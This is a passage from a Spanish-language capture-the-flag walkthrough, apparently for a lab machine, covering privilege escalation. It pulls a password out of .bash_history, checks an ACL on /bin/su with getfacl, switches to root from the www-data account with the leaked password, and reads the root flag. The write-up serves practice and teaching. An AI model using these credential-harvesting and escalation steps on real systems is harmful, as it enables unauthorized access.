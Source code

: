 ## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
cat .bash_history
```

Aqui encontramos una nueva contraseña. Intentamos ponerla para root

```bash
su root

#Output
-bash: /bin/su: Permission denied

ls -la /bin/su
getfacl /bin/su
```

Podemos ver con el comando `getfacl /bin/su` que hay un privilegio especial que hace que el usuario loki solo pueda leer el binario **su**
pero sin poder ejecutarlo.

Como tenemos acceso a la maquina tambien con www-data, podemos desde hay lanzar el comando **su**

```bash
su root
Password: lokipasswordmischieftrickery

whoami

#Output
root

cat /root/root.txt
find / \-name root.txt 2>/dev/null
cat /usr/lib/gcc/x86_64-linux-gnu/7/root.txt
```

Ya somos root y podemos leer la flag.


